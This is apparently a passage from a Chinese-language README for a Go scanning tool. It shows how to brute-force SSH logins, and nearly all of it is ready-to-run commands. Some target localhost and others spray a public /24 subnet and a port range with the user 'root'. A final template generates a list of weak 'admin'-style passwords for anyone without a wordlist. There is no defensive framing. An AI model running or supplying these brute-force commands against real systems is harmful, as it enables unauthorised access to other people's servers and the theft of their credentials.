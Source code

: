 ```
go run common/fp/cmd/scanfp.go brute --type ssh --target '127.0.0.1:22' -u 'root' -p 'admin,admin2'
```

使用 root 作为用户名，"admin,admin2" 作为密码，针对 127.0.0.1:22 进行 ssh 爆破


```
go run common/fp/cmd/scanfp.go brute --type ssh --target '127.0.0.1:22' -u 'dataex/dicts/user.txt' -p 'dataex/dicts/3389.txt'
```

使用字典作为用户名和密码对 127.0.0.1:22 进行爆破

#### 高级特性

```
go run common/fp/cmd/scanfp.go brute --type ssh --target '{{net:(47.52.100.105/24)}}:22' -u 'root' -p 'dataex/dicts/3389.txt'
```

以上命令行针对 47.52.100.105/24 这个网段进行 ssh 爆破，使用 22 默认端口，使用 root 作为用户名，`dataex/dicts/3389.txt` 字典作为爆破使用的密码。

#### 高级特性，针对多个复杂目标

```
go run common/fp/cmd/scanfp.go brute --type ssh --target '{{net:(47.52.100.105/24)}}:{{port:(22-26)}}' -u 'root' -p 'dataex/dicts/3389.txt'
```

以上命令行针对 47.52.100.105/24 这个网段进行 ssh 爆破，使用 22-26 作为目标爆破端口，其他同上。

#### 我没有字典，如何使用？

```
go run common/fp/cmd/scanfp.go brute --type ssh --target '{{net:(47.52.100.105/24)}}:22' -u 'root,admin,ops' -p 'admin,admin{{i(1-9)}},admin{{i1(1-9)}}admin{{i2(1-9)}}'
```

针对 47.52.100.105/24 这个网段进行 ssh 爆破，使用用户名字典为

```
root
admin
ops
```

使用密码字典为

```
admin
admin1
admin2
admin3
admin4
admin5
admin6
admin7
admin8
admin9
admin11
admin12
admin13
admin14
admin15
admin16
admin17
admin18
admin19
admin21
admin22
```